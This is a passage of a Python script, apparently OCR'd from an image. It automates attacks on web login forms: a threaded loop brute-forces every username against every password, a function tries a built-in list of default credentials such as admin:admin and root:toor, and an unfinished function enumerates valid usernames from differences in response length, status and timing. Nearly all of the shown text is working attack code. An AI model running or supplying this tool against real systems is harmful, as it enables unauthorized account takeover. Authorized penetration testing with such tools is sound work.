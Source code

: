 ```python
    print(f"[*] Testing {len(usernames)} usernames and {len(passwords)} passwords")
    
    successful = []
    total_attempts = len(usernames) * len(passwords)
    current_attempt = 0
    
    with ThreadPoolExecutor(max_workers=max_workers) as executor:
        for username in usernames:
            for password in passwords:
                current_attempt += 1
                if current_attempt % 10 == 0:
                    print(f"[*] Progress: {current_attempt}/{total_attempts} ({current_attempt/total_attempts*100:.2f}%)")
                
                # Add a small delay to avoid overwhelming the server
                time.sleep(0.1)
                
                result = executor.submit(test_login, url, username, password)
                if result.result():
                    successful.append((username, password))
    
    return successful

def test_default_credentials(url):
    """Test for default credentials"""
    default_creds = [
        ('admin', 'admin'),
        ('admin', 'password'),
        ('admin', 'admin123'),
        ('administrator', 'administrator'),
        ('root', 'root'),
        ('root', 'toor'),
        ('user', 'user'),
        ('guest', 'guest')
    ]
    
    print("[*] Testing default credentials")
    for username, password in default_creds:
        if test_login(url, username, password):
            print(f"[+] Default credentials work: {username}:{password}")
            return True
    
    return False

def test_username_enumeration(url, usernames):
    """Test for username enumeration"""
    print("[*] Testing for username enumeration")
    results = {}
    
    for username in usernames:
        response = requests.post(url, data={
            'username': username,
            'password': 'invalid_password_123',
            'submit': 'Login'
        })
        
        # Store response characteristics
        results[username] = {
            'length': len(response.text),
            'status': response.status_code,
            'time': response.elapsed.total_seconds()
        }
    
```